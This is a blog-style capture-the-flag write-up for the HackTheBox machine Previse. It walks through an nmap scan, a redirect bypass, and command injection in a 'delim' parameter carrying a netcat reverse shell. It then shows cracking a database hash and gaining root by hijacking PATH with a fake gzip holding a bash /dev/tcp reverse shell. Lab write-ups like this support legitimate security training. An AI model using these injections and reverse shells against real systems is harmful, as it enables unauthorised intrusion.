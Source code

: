 +++
author = "Khaled Ngm"
title = "Previse write-up (HackTheBox)"
date = "2022-07-04"
description = ""
+++
# Previse write-up HackTheBox
![previse](/images/1.png)
### 1. Port Scan Enumuration
### 2. Exploitation
### 3. Privilege Escalation
* ### USER
* ### ROOT

## Port Scan (Nmap)
* First We will scan target with nmap ``nmap -sV -sC 10.10.11.104``
* I found two open ports ``ssh`` and ``http``
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 03:00 EDT
Stats: 0:02:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 39.79% done; ETC: 03:05 (0:03:08 remaining)
Stats: 0:06:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 03:06 (0:00:07 remaining)
Nmap scan report for previse.htb (10.10.11.104)
Host is up (0.45s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE          VERSION
22/tcp   open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|_  256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
80/tcp   open     http             Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Previse Login
|_Requested resource was login.php
3269/tcp filtered globalcatLDAPssl
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 515.82 seconds

```
## Exploitation
* I found login Web page at http server.
* let's try to fuzz directories with DirSearch .
``python3 dirsearch.py -u http://10.10.11.104/`` and I have found an interesting directory called ``nav.php``

     ![](/images/2.png)
*  I tried to create account or visit any another links but pages have been redirected to ``login.php`` with ``302 Found``
* So I tried to edit response with ``200 ok`` and send it back to the server .

![](/images/3.png)

* And I got a registration form , Then I created a new account.
* When I logged in I found visited ``files`` menu and found ``SITEBACKUP.ZIP`` file .
*  When I extracted The file I found interesting files such as ``config.php`` that contian db credentials and more interesting php file called ``log.php`` , let's check source code.
* I found ``exec`` function that take delim via post request run python script without any validation .
* I went to log file page MANAGEMENT MENU >> LOG DATA and opened burp broxy to see request.
* So I listened on the server with ``nc -nlvp 9999`` and tried to inject ``delim`` with reverse shell ``delim=comma;nc+-e+/bin/sh+[ip]+[port]`` and finally I got a shell .
* lets use ``python -c "import pty;pty.spawn('/bin/sh')"`` to get interactive shell .
## Privilege escalation (User)
* Now we are ``www-data`` we will try to escalat our privilages .
* Let's connect to database with ``username`` and ``password`` located in ``config.php`` file , ``mysql -u root -D previse -p`` and then password ``mySQL_p@ssw0rd!:)``.
* Then I found a Table Called ``account`` , let's show table content with ``select * from accounts;``
* And I found a user called ``m4lwhere`` that already exist on OS , and I tried to Identify hash type with hashID .
*When I got the mode of hash I used ``hashcat`` to decrypt it with ``hashcat -a 3 -m 500 hash.txt /wordlist_path`` that retrieve ``ilovecody112235!`` password .
* Let's connect with ``ssh`` to get user flag ``ssh m4lwhere@10.10.11.104``
## Privilege escalation (Root)
* First we will apply ``sudo -l`` command to see what commands this user can run with high privileges .
* user can run ``/opt/scripts/access_backup.sh`` as a root .
* When I checked content I found ``gzip`` command run without full path.
* let's create file called ``gzip`` with bash reverse shell content ``bash -i >& /dev/tcp/ip/port 0>&1`` at ``/tmp`` directory and add this file to PATH ``export PATH="/tmp:$PATH"`` and give it a permission ``chmod +x /tmp/gzip``.
* Now we can listen on port and run command ``sudo /opt/scripts/access_backup.sh`` .
* Finally we Got a root shell . :).
# Thanks
